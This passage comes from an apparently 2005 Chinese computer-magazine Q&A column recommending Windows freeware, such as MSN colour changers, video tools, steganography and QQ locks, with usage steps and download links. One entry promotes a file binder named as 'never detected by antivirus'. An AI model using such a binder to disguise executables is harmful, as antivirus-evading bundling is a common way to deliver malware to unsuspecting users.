答：如果是想让Access数据库生成的MDB文件变小，推荐使用“Access数据库压缩机”，其功能就是减小MDB文件的体积。

软件不需要特别设置，打开后，点击“文件名”下的按钮，选择要压缩的MDB数据库文件，如果数据库文件有密码，则在“数据库密码”中输入文件，最后点击“压缩数据库”按钮即可。

- 软件版本：1.4
- 软件大小：1028KB

## 第十六期

## MSN文字颜色随心而变：MSN颜色修改器

问：我平常使用MSN Messenger（以下简称MSN）时，字体颜色总是那几样，请问有没有什么软件可以修改MSN文字的颜色呢？

答：现在的MSN与老版本的QQ相同，都只能使用几种字体颜色。QQ的问题可以用软件解决，MSN同样也可以用名为“MSN颜色修改器”的软件解决。使用软件前要先关闭MSN，然后再运行软件，通过调整不同颜色的滑块，组合出不同的颜色。最后点击“确定”，重启MSN，文字的颜色就会改变了。

- 软件版本：2.1
- 软件大小：906KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.newhua.com/cfan/200516/msncolor.exe

## 制作影片预览图的利器：Image Grabber

问：前几天我在整理我下载的电影，想为这些电影制作预览图，请问有没有可以自动完成的软件呢？

答：你的问题也是很多电影下载网站站长遇到的问题，你可以试试Image Grabber。这是一款非常实用的截图软件，它能截取视频的多个片段并把它们组合在一张图片上。

这款绿色软件使用很简单，点击“打开”，选择好视频文件（可以是RMVB格式文件，但要安装好解码器），再通过“保存”按钮设置好保存位置，稍候，软件就会完成视频截取。另外，在截取前，你还可以通过“设置”按钮设置截取后图片的宽度、高度、字体等信息。

（conan）
- 软件版本：N/A
- 软件大小：740KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200516/ImageGrabber.zip

## 解决乱码问题：乱码察看器

问：我前几天收到了一封E-Mail邮件，不管是把语言切换为简体中文还是繁体中文都没办法显示，请问应该如何解决呢？

答：几乎每个人都收到过乱码邮件，而且在修改语言后还是保持原状的情况，出现这种问题多是因为邮件在传送时，编码出现问题。如果需要解决这个问题，只要使用“乱码察看器”就可以将乱码还原为文字了。

打开软件后，将乱码复制到上侧的窗口，然后点击“解码”或“内码转换”后的按钮，直至下侧窗口显示为正常文字即可。

- 软件版本：2.60
- 软件大小：286KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://nj.onlinedown.net/soft/12599.htm

## 最佳的本地化工具：PASSOLO

问：我用过《电脑爱好者》以前介绍过的Visual Localize进行汉化，请问有没有更好的软件呢？

答：大家熟知的本地化工具一般是Visual Localize和Language Localizator，这里要为你推荐的是一款名为PASSOLO的软件，它可以对Visual C++、Borland C++和Delphi语言编写的软件进行本地化，支持的文件有EXE、DLL及OCX。这款软件使用简单，利用向导功能，你可以很快上手，而且软件也能自动修正一些错误，非常方便简单。

打开软件，先要设置一个用户名，同时新建方案，完成后软件就会打开主界面。在“字符串列表”项下的“来源”处右击，选择“添加源文件”，将需要汉化的文件添加，再双击该文件，就可以在“源列表”窗口，这时你就会感到软件的强大之处，它仅会提取出文件中有用的资源信息，对于影响程序运行的代码部分，你是无法看到的，这时就可以开始进行汉化了。

另外，如果你是进行版本的升级，可以选择菜单中的“字符串列表 -> 资源重用”即可，然后再选择以前保存的文件，这样就可以快速完成新版本的汉化，非常方便快捷。完成后按Ctrl+S进行保存即可，非常方便。

- 软件版本：5.0
- 软件大小：12.91MB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.newhua.com/cfan/200516/Passolo.rar

## 制作另类绿色软件：永不查杀的捆绑机

问：我看《电脑爱好者》介绍过用软件可以制作出只有一个文件的软件，请问还有没有其他的软件呢？

答：你可以试试这款“永不查杀的捆绑机”，这款软件模拟微软的IEXPRESS程序将多个不同类型的文件（如EXE及DLL文件等）捆绑成一个可执行程序。

软件使用很简单，比如，一个可执行文件BBB.EXE需要AAA.DLL才能运行，则先使用“增加文件”添加AAA.DLL，然后再添加BBB.EXE，同时在“安装首次运行”中选择“BBB.EXE”，最后选择好图标，点击“捆绑文件”即可。

- 软件版本：1.0
- 软件大小：392KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200516/CABINET.rar

## 第十七期

## 轻松调整nVIDIA显卡：nVHardPage SE

问：我用的是NVIDIA的显卡，看到网上有人说可以通过修改注册表的方法提升显卡的性能，不知道有没有更简单的方法呢？

答：你可以试试nVHardPage SE，它可以对DirectX、OpenGL及超频进行设置。

下载软件后，解压缩软件，从http://www.newhua.com/cfan/200517/nv-Language.rar下载汉化包，将其解压至软件目录下的Data\Language\子目录中。运行nVHardPageSE.exe，进入软件，将鼠标移至左下角的nVHardPage options项，从右侧下拉菜单中选择“Chinese”，重新打开软件，完成汉化。

现在就可以根据情况对显卡进行各项设置了。

- 软件版本：3.1
- 软件大小：1966KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.onlinedown.net/soft/25522.htm

## 查查闪存盘、读卡器的底细：U盘检测器

问：我买了一个二手的闪存盘，我想知道它是USB 1.1还是USB 2.0的，请问有没有软件可以检测出来呢？

答：很多JS总是用USB 1.1冒充USB 2.0闪存盘，如何揭穿他的谎言呢？其实是可以用一些辅助软件来帮你。比如这里要为你介绍的“U盘检测器”。它不仅可以检测出闪存盘的速度，还可以测出读卡器的读取速度。

将闪存盘或读卡器插好，然后就可以在软件窗口中的“已连接上PC的U盘设备”下选择闪存盘，“选中的U盘设备信息”中的“传输速度”项就可以判断出闪存盘或读卡器的速度了。如果显示的为full speed则为USB 1.1，如果显示为high speed则为USB 2.0。

- 软件版本：5.0
- 软件大小：58KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.skycn.com/soft/23636.html

## 最具创意的查询软件：骗子克星

问：网上有很多骗子，购买了产品得不到服务，信息不真实，安全得不到保证，这时应该怎么办呢？

答：你可以试试“骗子克星”，这款软件是一款信息查询软件，它可以查到手机、IP、域名、身份证、主机地址所在地等信息。这样在网上交易或交友时就可以有效地防止受骗了。

在软件中分别选择不同的查询项，输入信息后就可以查到结果。另外，点击右上角的笑脸图标，可以使用其工具条模式，快速搜索信息。

- 软件版本：1.01
- 软件大小：6311KB
- 软件性质：共享软件（部分功能限制）
- 适用平台：Windows 2000/XP
- 下载地址：http://www.skycn.com/soft/23662.html

## 轻松分类你的开始菜单：TIDY START MENU

问：很多认识我的人都称我为“小白鼠”，我总是去试用最新的软件，所以我的开始菜单总是很长，请问有没有一款软件可以让我将开始菜单中的项目进行分类呢？

答：推荐你试试TIDY START MENU，它可以对你的开始菜单进行分类，这样你可以十分轻松地找到所需要的程序。

安装好软件并运行，打开向导界面，选择“Simple mode（recommended）”（以后需要修改分类时，可选择“Professional mode项”）后，点击“Next”，进入下一步。在这步我们就要对“开始”菜单中的内容进行分类了，通过点击“Category”的不同按钮，并勾选窗格中的“开始”菜单程序，就可以完成分类。

分类完成后，点击“Next”进入下一步，在这里，我们先点击“Backup Now!”按钮，将“开始”菜单进行备份（要恢复时点击“Restore”按钮），最后点击“Start Processing”按钮，稍候软件就会对“开始”菜单进行分类。

- 软件版本：2.3
- 软件大小：918KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.tidystartmenu.com/index.shtml

## 不变大小，将文件隐藏在照片里：Winhip

问：我看了第15期的《作个‘007’文件藏进照片里》一文后，才知道原来照片还可以藏文件，请问有没有更简单的方法呢，是否可以用软件来解决这个问题呢？

答：将文件藏在照片里的软件不少，比如Winhip。其使用非常简单，最大特色是在进行文件隐藏时，不会改变照片原始尺寸，这样别人就不会轻易发现你的小秘密了。其实软件原理就是将文件转化为位图，然后叠加到原图上，因此不会改变文件大小，不过要注意，它对原图的质量是有一定损伤的。

运行软件，点击“Open Picture”按钮，打开照片文件（仅支持BMP格式）。在新弹出窗口中点击“Image → Hide file”菜单项，选择要隐藏的文件（可以是文本文件，也可以是图片等）。接着开始设置文件提取密码，完成后点击“OK”，完成隐藏。通过“Image”菜单下的“Save”项保存照片即可。

需要提取加密文件时，同样先打开照片，只是在弹出窗口中选择“Image → Retrieve file”菜单项，按提示完成提取。

（gjb66）
- 软件版本：2.0

## 第十八期

### 网管工具大礼包: Net Tools

问: 我是一名网管，电脑里装满了各种各样的网管软件，有没有一款软件可以把这些功能都包括呢？

答: 如果想解决网络中的各种问题，那么建议你试试 Net Tools，这是一款包含有 93 个工具的软件。当网络出现问题时，相信总有一两个工具对你有所帮助。这款软件的作者最初只是想编个软件来练习自己编程功力，没想到越写越大，于是就有了 Net Tools，而且已经包含了 93 个工具。它具有查看本机IP，MAC地址侦测，IP地址搜索，路由侦测等功能，非常方便。

- 软件版本: 3.1
- 软件大小: 13MB
- 软件性质: 免费软件
- 适用平台: Windows 2000/XP
- 下载地址: http://users.pandora.be/ahmadi/nettools3.zip

### 制作 Flash 特效字: SWF Text

问: 我在制作主页，请问有什么软件可以制作 Flash 的特效字？

答: 你可以试试 SWF Text 这款软件，在这款软件中只要点击几下鼠标，就能制作出各式各样的 Flash 文字特效了。
打开软件，先在右侧设置好“影片”的大小，然后在左侧点击“背景”及“背景特效”按钮，设置背景画面。完成后，点击左侧的“文本”按钮，将右侧“文本”栏中的内容全部删除，点击“添加”按钮，添加好 Flash 需要的文字。如果你觉得文字太小，那么可以通过左侧的“文本特效”及“字体”按钮，为文字设置特效，同时加大字号。“交互”及“声音”可以分别设置点击 Flash 后要打开网页及随 Flash 一起播放的声音。最后，点击窗口最下侧的“预览”，确认无误后，点击“发布”按钮即可。
另外，制作好的 Flash 还可以插入到 PowerPoint 幻灯片中: 打开 PowerPoint，点击菜单中的“视图→工具栏→控件工具箱”，点击右下角的“其他控件”按钮，选择下拉菜单中的“Shockwave Flash Object”，画出 Flash 视频所占的区域，双击该区域矩形框，打开 Visual Basic 演示文稿窗口，在左下侧的“属性”窗格中找到“自定义”项，点击其后的“...”，在“影片 URL”及“基本 URL”中设置好 Flash 文件保存的路径，点击“确定”即可。

- 软件版本: 1.1
- 软件大小: 2827KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.onlinedown.net/soft/41960.htm

### 能够转换 3GP 文件的免费软件: ez3GP

问: 我的手机可以看视频，可是支持的格式不多，其中包括 3GP 文件，请问哪款软件可以转换视频文件为 3GP 格式文件呢？

答: 3GP 是与 MP4 类似的视频文件格式，目前，它主要用于手机视频，现在大多数可以播放视频的手机均支持 3GP 格式，在电脑上，我们可以使用 QuickTime 或 RealPlayer 等软件进行播放。
如果想转换常见视频文件为 3GP 格式，推荐你使用 ez3GP。这款软件不仅可以进行简单转换，更提供了批量转换功能，非常方便。打开软件后，点击“添加文件”或“添加目录”按钮，导入要转换的文件，然后点击“设置格式”按钮，根据手机屏幕的大小设置“尺寸”，其他项使用默认值。最后，勾选转换时显示进度，点击“开始转换”，稍后在被转换文件所在文件夹中就可以看到扩展名为 3GP 的转换后的文件了。

- 软件版本: 1.1
- 软件大小: 1.01MB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200518/ez3gpcn.exe

### 有了 JAR 就有了 JAD: ezJad

问: 我从网上下载了一个游戏，但只有 JAR 文件，并没有 JAD 文件，现在我无法安装这个游戏了，请问应该怎么办？

答: 随着 Java 的普及，已经有不少的手机支持了 Java 功能，网上也有不少 Java 程序可以下载。这些 Java 程序一般是由 JAD 及 JAR 两个文件组成的，其中 JAR 是主程序文件，而 JAD 是将该程序安装到手机里必备的描述文件。如果不提供 JAD 文件，很多手机都无法安装相应的 Java 程序。遇到这种情况，推荐你试试 ezJad 来解决这个问题。
安装并运行软件，点击“添加文件”或“添加目录”，选择好 JAR 文件，然后点击“开始生成”即可，非常简单。当然你也可以直接将 JAR 文件拖拽到悬浮窗口中，生成所需文件。

- 软件版本: 1.1
- 软件大小: 370 KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200518/ezjadcn.exe

### 碟片管理的好帮手: 火凤凰电影终极收藏软件

问: 我平常喜欢买 DVD，已经有几百张了，请问电脑上有没有可以管理这些碟片的软件呢？

答: 你可以试试“火凤凰电影终极收藏软件”，这款软件可以管理包括 DVD、VCD、CD 等媒体在内的各种碟片，而且软件的开放性很强，几乎所有的项目都可以定制，可以添加海报、封面，一部电影对应多个碟片的一对多管理，强大的导入/导出功能。
在使用这款软件的最新 1.72 时，需要先安装 1.7 版（下载地址: http://www.ythfh.com/soft/UploadSoft/setup.exe），然后再下载升级文件，将该文件解压缩至软件安装目录，覆盖原文件即可。打开软件后，点击菜单中的“数据录入→电影录入”，在“增加新电影”窗口中填入所需项目即可。软件还提供了强大的查询功能，可在“浏览方式”下快速找到所需要的碟片信息，非常方便。

- 软件版本: 1.72
- 软件大小: 1959 KB
- 软件性质: 共享软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.ythfh.com/soft/UploadSoft/hfhddv172.rar

## 第十九期

### 让键盘发出声音: KeyTick

问: 请问有没有让键盘发出声音的软件呢？

答: 有些朋友可能在写文章或是写文件时感觉很闷，听音乐又觉得吵，就想让键盘发出点声音，如果你也有这种小“癖好”，可以试试 KeyTick 这款绿色小软件。
这款软件使用非常简单，下载解压缩后，运行 KeyTick.exe，这时再敲击键盘就会出现“咔咔”的声音，同时系统托盘也会出现软件的设置图标。如果你听烦了这种声音，那么可以右击该图标，选择“打开”，然后从“键盘”项下不同项目的下拉菜单中选择其他音效，或是点击项目后面的喇叭按钮，选择音频文件作为效果音。

- 软件版本: 1.0
- 软件大小: 197KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200519/keytick.rar

### 轻松修复所有的媒体: All Media Fixer

问: 我用 BT 下载电影时，经常遇到下载到 99% 的视频文件，这些未下完整的媒体文件，有些无法查看，有些无法拖拽快进，请问应该怎么解决呢？

答: 这些 BT 未下完的电影，通常是需要修改扩展名，才能播放。对于无法拖拽快进的问题，可以使用 All Media Fixer 来解决，就像它的名字，这款软件可以修复几乎所有的媒体文件，包括 WMA、WMV、ASF、AVI、RM、RMVB、MP3、MPEG、BMP 等多种媒体格式。
使用这款软件汉化版前，需要先安装软件的原版（下载地址: http://www.newhua.com/cfan/200519/MediaFixer.exe），然后将汉化版中的文件覆盖原文件即可。
打开软件后，点击菜单中的“文件→添加文件”，添加要修复的文件，然后按下 F5 键，就可以完成修复了。

- 软件版本: Pro 5.1 汉化版
- 软件大小: 775KB
- 软件性质: 免费软件
- 适用平台: Windows 2000/XP
- 下载地址: http://www.newhua.com/cfan/200519/hamf.rar

### 制作补丁的好帮手: dup2

问: 我想制作补丁软件，请问用什么软件比较好？

答: 很多朋友会编软件或是汉化软件的朋友都需要制作补丁，如果手工做比较麻烦，推荐试试 dup2。它是一款专门制作补丁的绿色软件。支持多种类型补丁的制作，还附带音频模块，可以添加背景音乐。
进入软件后，点击“新建方案”按钮，然后双击右侧窗格中的“补丁信息”项，设置好一些补丁信息，接着在右侧点击“添加”按钮，在弹出窗口中选择添加补丁的类型，比如“注册表补丁”，然后在窗口左侧双击“注册表补丁”，点击“导入”，选择好 REG 文件即可，其他补丁的添加也和注册表补丁相似，之后可通过“设置”标签下的项目添加音频模块，设置外壳文件等等，最后，使用“补丁数据”标签下“创建补丁”完成补丁的创建。

- 软件版本: 2.09
- 软件大小: 77KB
- 软件性质: 免费软件
- 适用平台: Windows 2000/XP
- 下载地址: http://www.newhua.com/cfan/200519/dup2-ha.rar

### 挽救受损光盘上的文件: Unstoppable Copier

问: 我手里有一张出了问题的光盘，上面数据很重要，请问可以用什么软件将上面的数据复制出来呢？

答: 这种坏盘复制的软件最著名的就是 BadCopy（下载地址: http://nj.onlinedown.net/soft/5699.htm），不过这是一款共享软件，未注册版有一定的使用限制。因此推荐试试 Unstoppable Copier。
打开软件后，先在“Source”（源文件夹）处设置好光盘目录，在“Target”（目标文件夹）处设置好硬盘上的目录，然后勾选“Include Sub Folders”（包含子目录），如果你需要继续上次未完成的拷贝，或是想再试一次以前没有复制成功的文件，可以勾选“Resume Partial Files”。最后，点击“Copy”按钮，就可以复制文件了，如果遇到实在无法复制的文件，可以用“Skip”按钮，跳过文件。

- 软件版本: 2.0
- 软件大小: 1.0MB
- 软件性质: 共享软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200519/ucsetup.exe

### 网络游戏巧更新: 文件增量备份工具

问: 我用家里的两台电脑玩网络游戏，每到更新数据，就非常头痛，一台更新后，另一台还要等待很长时间更新，请问有没有好办法，可以快速更新呢？

答: 这个问题在2005年第9期《文件移形换位大法》一文介绍过一种实现方法，如果觉得用命令行模式比较不习惯，这里推荐一款软件——“文件增量备份工具”。它会将文件夹中的全部文件及文件夹复制到目标文件夹，第一次为全部复制，第二次及以后会根据文件是否被修改进行增量复制，可以用于办公文件及网络游戏的更新。

进入软件后，点击“设置”按钮，分别设置好源文件夹及目标文件夹，可以是本地文件夹，也可以是局域网文件夹。完成后，点击“其他”标签，在这里设置“开机自动运行”或“备份后关闭”（注意设置此项后，需要恢复时要用“记事本”打开软件所在目录下的init.ini，将AUTOCLOSE=1修改为AUTOCLOSE=0）。

完成设置后，点击主界面的“开始备份”按钮即可。注意，软件不会对目标文件夹中已存在但源文件夹中不存在的文件或文件夹进行操作。

- 软件版本: 0.11
- 软件大小: 12KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.onlinedown.net/soft/41945.htm

## 第二十期

### 我的电池我理解: BatteryMon

问: 我想购买二手笔记本，听说电池部分很容易以次充好，请问有什么软件可以帮我检查电池的好坏吗？

答: 如果要挑选电池，推荐使用 BatteryMon。通过它可以了解笔记本电池的健康状况，它会以图形方式让你直观地了解电池的各种性能参数。

安装并运行BatteryMon，在主界面中点击快捷工具栏左侧的绿色对勾按钮，BatteryMon就开始默默地为你监测电池使用情况，折线区会显示出电池消耗曲线。折线区的横轴记录使用的时间，纵轴则显示当前电池容量，而图中折线的斜率则代表了放电速度，斜率越大，放电速度就越快。一般图上会有两条折线，蓝色虚线是标准的放电率，而黑色的曲线则是BatteryMon实际监测到的电池的电量。电池新的时候，黑色折线会与蓝色线条基本一致，随着使用，电池会不断地损耗，黑线会偏离蓝线越来越远。

如果要测试笔记本电脑的电池电量，可通过BatteryMon提供的“比较率”参数。首先，打开BatteryMon，让BatteryMon最小化在后台进行，进行一段时间（大约10分钟左右）的正常使用，例如播放DVD或进行办公，或游戏，尽量是自己最常做的事。然后，再次打开BatteryMon主窗口，在左下的“对比率”下拉菜单中选择一个参考时间。观察作为参考的红色虚线与黑色折线，调整参考时间，使黑色曲线与红色曲线尽量一致，那么电池使用时间就跟参考时间相仿。

另外，通过“快捷工具栏”第三个快捷按钮，还能够看到电池的基本信息。通过它，可以了解到电池的制造厂商、唯一标识、设计容量和可充容量等电池的参数。

- 软件版本: 2.0 Build 1006
- 软件大小: 577KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200520/batterymon.zip

### 功能强大的关机软件: Slawdog Smart Shutdown

问: 我工作时比较忙，经常下班前就要出去，就没时间关闭电脑了，请问有没有什么软件可以帮我关闭电脑呢？

答: 推荐你试试Slawdog Smart Shutdown（沙拉狗智能关机），这款软件是专门的关机软件。它可以执行关闭、注销、锁定、休眠等操作。可以设置关机前清空回收站，可以一键关机、一键重启，可设定一段时间内无操作自动关机等。

这样，你的问题就很好解决了，打开软件，点击“闲置操作”按钮，在弹出窗口中的下拉菜单中选择“关闭”，然后将“非活动XX之后”设置为“2小时”，这样两个小时没有操作电脑就会自动关闭。

如果怕有应用程序还处于活动状态，无法关闭，可以在软件的主窗口中点击“设定→全局选项”，勾选“强制执行·快速关机”、“自动关闭‘结束任务’对话框”等项。

另外，这里还要告诉大家，如果三四个小时内不使用电脑，最好将电脑设置为“休眠”状态，这样更为节省电力。

- 软件版本: 2005 经典版
- 软件大小: 1.05MB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200520/SSS-CS05.EXE

### 意志力不坚定的人必备: Temptation Blocker（欲望拦截者）

问: 我这个人总管不住自己，工作时也会动不动就想打打QQ游戏，或浏览网页，请问有没有软件可以让我不去打开它们呢？

答: 你可以试试Temptation Blocker，它能帮你解决此问题。在将禁止打开的程序加到软件的列表，并设置好允许时间后，再运行这些程序，它们会自动关闭，且Temptation Blocker会告诉你还有多长时间后才能使用它们。

打开软件后，在“Check the program(s) you want to disable”（勾选你想禁用的程序）中勾选禁用的程序（如果没有，可按Ctrl+A，添加相应的EXE执行文件），接着在“Choose the amount of time you want to block the program(s)”（设置禁用程序的时间）下设置好程序禁用的时间，比如5Hours（小时）后等，最后点击“Get Work Done!”按钮。

现在你再运行这些程序，Temptation Blocker就会将它们关闭，同时弹出提示，告诉你还有多长时间才能使用。注意，此时“任务管理器”也同时不能使用了。

如果你实在是需要使用这个程序，那么可以双击Temptation Blocker在系统托盘内的图标，在弹出窗口中输入32位随机字符后，就可重新设置了。

- 软件版本: 1.99
- 软件大小: 46KB
- 软件性质: 免费软件
- 适用平台: Windows 2000/XP
- 下载地址: http://www.onlinedown.net/soft/19961.htm

### 帮你的MP3分分类: MP3分类管理器

问: 我从网上下载了很多MP3歌曲，现在想把它们分类保存，请问有什么软件可以帮我完成这个操作吗？

答: 其实现在很多播放器都已经提供了MP3分类的功能，如果用的播放器没有提供，或提供的功能并不强大，你可以试试名为“MP3分类管理器”的软件。

软件有两种方式快速添加歌曲，一是选择菜单中的“文件→自动搜索音乐文件”，软件会自动搜索所有分区中的MP3歌曲，适合MP3文件放置比较分散的用户。如果你习惯把歌曲都放到某一文件夹下，则可直接拖拽该文件夹至软件主窗口中。添加完歌曲后，软件会根据歌曲的ID3信息自动按歌手、专辑、物理地址进行分类，如果你觉得不够，还可以使用“自定义类别”进行添加。

## 第二十一期

### 像文件夹那样访问RAR文件: RarFS

问: 我最近安装了Windows XP，发现里面可以直接将ZIP压缩文件作为文件夹进行操作。但现在大部分的压缩文件是保存为RAR格式的，而Windows XP却无法直接以文件夹的形式打开RAR格式文件。请问用什么方法才能够直接以文件夹的形式打开RAR文件，是不是需要安装第三方软件才可以？

答: 这里推荐一款名字为RarFS的软件，通过它可以在“资源管理器”中像访问文件夹一样打开RAR文件了。RarFS使用方法很简单，先将压缩包解压，然后运行install.bat完成安装。现在，进入“资源管理器”，双击任意RAR文件，就能像访问文件夹一样打开RAR文件了。还可以直接点击压缩包中需要执行或浏览的文件，软件会自动将内容解压到临时文件夹中，并运行或打开所需文件。

另外，RarFS还可以在鼠标右键上增加添加、删除、改名、解压缩到任意位置等功能，这样可以更方便地对RAR文件进行操作。（小新）

- 软件版本: 0.8
- 软件大小: 218KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200521/rarfs.rar

### 免费的翻译专家: Google 网页翻译工具

问: 我平常用的翻译软件是金山词霸，请问有没有免费的全文翻译软件呢？

答: Google 等网站都带有网页翻译功能，利用这项功能，就可以实现全文翻译了。而通过“Google 网页翻译工具”，你可以不必访问Google网站，只要电脑能上网，就可以直接翻译文章了。这款软件支持多语种互译，其中就包括了将英语翻译为中文。

打开软件后，从From下拉菜单中选择“English 到 简体中文 Beta”，然后将要翻译的英文复制到“原文”框中，点击“翻译”按钮即可。

- 软件版本: Final 版
- 软件大小: 19KB
- 软件性质: 免费软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.newhua.com/cfan/200521/Translator.rar

### 用摄像头制作电影: FlashMe（靓影）

问: 听说用摄像头可以拍摄视频电影，但是我用摄像头自带的软件拍摄时，文件体积过大，请问有没有软件可以拍摄压缩视频呢？

答: 现在已经有很多软件都可以拍摄压缩视频软件了，这里要为你介绍的是名为FlashMe的绿色软件，它体积小巧，而且使用简单。简单，可以拍摄出640 x 480大小的电影。打开软件后，点击上侧工具栏中左数第一个按钮，进行拍照。第二个按钮就为录制视频按钮，第一次点击为开始录制，再次点击停止。拍好的照片及视频片段均保存在“我的文档”文件夹下。

软件版本：1.0 Beta
软件大小：723KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/42929.htm

## 动画格式轻松转:Easy GIF2SWF Converter

问：我的QQ里有很多GIF格式的表情，请问应该如何将它们转换为SWF格式呢？
答：你可以试试Easy GIF2SWF Converter这款软件。这款软件专门用于GIF动画转换为SWF格式，而且使用起来非常简单。打开软件，在窗口最左侧选择好要转换的文件所在目录，点击“添加”或“全部添加”按钮，选择要添加的图片。然后，通过“输出文件夹”项设置好要转换后图片保存的位置。最后点击“立即转换”即可。

软件版本：1.0.114
软件大小：374KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200520/easygif2swf.rar

## 代理服务器随心换:Proxy Switcher

问：我经常要访问一些国外站点，但速度很慢，想用代理来访问，不过代理要一个一个的测试真的很麻烦，请问有什么方法可以让软件自动切换吗？
答：的确，换代理服务器是很麻烦的事，如果你已被这个问题困扰很久，那么这里介绍的Proxy Switcher将会为你解决这个问题。这款软件不仅可以快速搜索到数百个代理服务器，还会显示出每个代理服务器所在的国家，更可自动测试每个代理服务器是否可用。运行软件后，会自动弹出向导窗口，按照向导，软件就会自动搜索代理服务器，并测试其状态，是否可用，连接速度等，非常方便。当你找到速度不错的代理服务器后，只要双击一下，可以自动完成IE代理服务器的切换了。在窗口左侧可以对代理服务器进行分类，从代理服务器列表中选择代理服务器，然后将其移至“匿名”类，点击窗口下侧的“自动转接”按钮，这样在访问网络时，软件就会自动切换速度最快的代理服务器，非常方便。对于使用非IE的第三方网页浏览器，可以直接将浏览器代理设置为IE浏览器代理即可。通过右击系统托盘内软件图标，选择菜单项中的“直接连接”就会去除代理服务器连接，直接连接上网了。另外，要注意软件在安装时，会提示安装DUDU下载器及上网助手，请大家根据需要选择是否安装。

软件版本：Pro 3.3.3506
软件大小：3.2MB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200521/ProxySwitcherPro.zip

## 第二十二期

## 找到文件的真实下载地址:TrueURL

问：很多网站上下载地址都是形如http://dlc.pconline.com.cn/filedown.jsp?id=68423&dltypeid=1类的下载地址，请问我如何找到它的真实下载地址呢？
答：的确，用这种下载地址下载很不方便，而且有时无法用FlashGet下载。所以转换URL为真实地址是很有必要的，建议你去试试用TrueURL来解决你的问题，这款绿色小软件可以找到文件下载的真实地址，轻松下载。下载TrueURL，解压缩后，直接运行，然后将显示的地址复制到“Fake URL”栏后，点击“Go!!!”按钮，就会在“True URL”栏中显示出真实下载的地址了。

软件版本：0.10
软件大小：173KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200521/trueurl.rar

## 备份Outlook的个人资料:个人文件夹备份

问：因为使用智能手机的缘故，我平常常常用Outlook收发电子邮件，进行日程，任务管理。因为资料比较重要，请问我应该如何自动备份Outlook的资料呢？
答：推荐你试试微软为Outlook制作的自动备份插件。它可以帮你完成Outlook数据备份。下载软件并完成安装，打开Outlook，点击“文件->备份”，在弹出窗口中点击“选项”按钮，在“提醒”项下设置为希望的备份时间，这样到指定时间，退出Outlook后，就可以备份资料了。

软件版本：N/A
软件大小：160KB
软件性质：免费软件
适用平台：Windows 2000/XP Outlook 2003
下载地址：http://www.newhua.com/cfan/200522/pfbackup.exe

## 让指定的QQ上线:QQ 锁

问：我家里的电脑平常是我和孩子共用，最近为了不影响他的学习，想限制了他上网用QQ聊天。请问有没有办法可以让我孩子没办法登录他的QQ，但不影响我使用QQ呢？
答：你可以试试QQ锁这款软件，它可以让指定QQ号登录，其他号码通通无法上线。运行软件后，按下Ctrl+Shift+S，打开输入窗口，并输入口令(原始口令为空)，打开软件主界面。在“输入QQ号码”下方输入想允许登录QQ的号码，再点击“添加”按钮，将它添加到“被允许的QQ号码”列表中。为了防止别人随意添加允许登录的QQ号码，再点击“修改口令”按钮输入新口令，确定后按下“CTRL+SHIFT+H”隐藏QQ锁即可。(木头人)

软件版本：2.0
软件大小：150KB
软件性质：共享软件（注册后无法使用Ctrl+Alt+Del来结束QQ锁）
适用平台：Windows 9x/2000/XP
下载地址：http://www.softreg.com.cn/shareware.asp?id=23593

## 给QQ宠物找个保姆:Q宠保姆

问：我平常喜欢玩QQ宠物，请问有没有软件能帮我“养”宠物呢？
答：养QQ宠物最好还是自己养，如果实在没时间，可以借助于“Q宠保姆”。它可以自动喂养QQ宠物，具有让QQ宠物自动打工等功能。打开QQ宠物，同时打开软件，点击“检测”按钮，这时你的QQ宠物就会出现在列表中，勾选要让“Q宠保姆”代养的宠物，然后点击“设置”按钮，对自动喂养进行设置。由于是自动喂养，所以有时会出现各种各样的问题，因此建议修改软件的一些默认设置，比如，在“基本设置”标签中，“照顾”项下的“饥饿小于”要根据喂养的食品而设置，如果喂加900体力的，此处就设置为900，如果喂加1080体力的，则此处使用默认即可。“保护”项下的“饥饿小于”及“清洁小于”分别修改为“600”及“1500”。“两次喂食请求间隔”及“两次洗澡请求间隔”分别设置为“10”分钟。

软件版本：2.0 Build 1022
软件大小：710KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200522/QQPetBonne.rar

## 看漫画的利器:MangaMeeya

问：我平常喜欢从网上下载漫画看，请问有没有专业的看漫画软件？用ACDSee实在是太麻烦了。
